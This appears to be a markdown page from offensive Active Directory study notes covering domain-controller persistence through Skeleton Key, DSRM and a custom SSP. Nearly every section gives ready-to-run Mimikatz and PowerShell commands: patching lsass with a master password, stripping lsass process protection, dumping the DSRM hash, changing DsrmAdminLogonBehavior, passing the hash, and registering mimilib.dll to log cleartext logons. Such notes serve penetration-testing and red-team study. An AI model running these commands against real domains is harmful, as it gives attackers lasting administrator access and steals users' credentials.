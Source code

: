 # Domain Persistence - Skeleton Key, DSRM and Custom SSP

- [Domain Persistence - Skeleton Key, DSRM and Custom SSP](#domain-persistence---skeleton-key-dsrm-and-custom-ssp)
  - [Skeleton Key](#skeleton-key)
  - [DSRM](#dsrm)
  - [Custom SSP](#custom-ssp)

---

## Skeleton Key

**Skeleton key** is a persistence technique where it is possible to patch a Domain Controller (`lsass` process) so that it allows access as any user with a single password.

The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.

All the publicly known methods are **NOT persistent across reboots**. Yet again, `mimikatz` to the rescue.

<br/>

Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. 

Note:
DA privileges required

```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

<br/>

Now, it is possible to access any machine with a valid username and password as "mimikatz"

```
Enter-PSSession -Computername us-dc -credential us\Administrator
```

You can access other machines as well as long as they authenticate with the DC which has been patched and the DC is not rebooted.

<br/>

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (`mimidriv.sys`) on disk of the target DC:

```
mimikatz # privilege::debug 
mimikatz # !+ 
mimikatz # !processprotect /process:lsass.exe /remove 
mimikatz # misc::skeleton 
mimikatz # !-
```

Note that above would be very noisy in logs - **Service creation**!

<br/>

---

## DSRM

**DSRM** is Directory Services Restore Mode. There is a local administrator on every DC called "`Administrator`" whose password is the DSRM password.

DSRM password (SafeModePassword) is saved when a server is promoted to Domain Controller and it is rarely changed. After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

<br/>

Dump DSRM password.

Note:
DA privs required.

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername us-dc
```

<br/>

Note:
You may compare the NTLM of domain's `administrator` and DSRM's `administrator` using:<br/>
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' Computername us-dc`<br/>
The first one is DSRM local administrator

<br/>

Since it is the 'local' administrator of the DC, we can pass the hash to authenticate. But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.

```
Enter-PSSession -Computername us-dc
```

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

<br/>

Then use Mimikatz the pass the hash:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```

Try to list the root of `us-dc`:

```
ls \\us-dc\c$
```

<br/>

To use PSRemoting, we must force NTLM authentication:

```
Enter-PSSession -ComputerName us-dc -Authentication Negotiate
```

<br/>

---

## Custom SSP

A **Security Support Provider (SSP)** is a **DLL** which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:

- NTLM
- Kerberos
- WDigest
- CredSSP

Mimikatz provides a custom SSP - `mimilib.dll`. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

<br/>

We can use either of the ways:

**Method 1:**<br/> 
Drop the `mimilib.dll` to system32 and add `mimilib` to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:

```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'

$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

```

<br/>

**Method 2:**<br/>
Using **mimikatz**, inject into `lsass` (Not stable with Server 2016 and 2019):

```
Invoke-Mimikatz -Command '"misc::memssp"'
```

<br/>

All local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`:

![picture 55](images/27a9396ec4d402ca463fddbfb58244d20aaaef1c98e3fa0e2fcbeea6e03dd939.png)  

<br/>


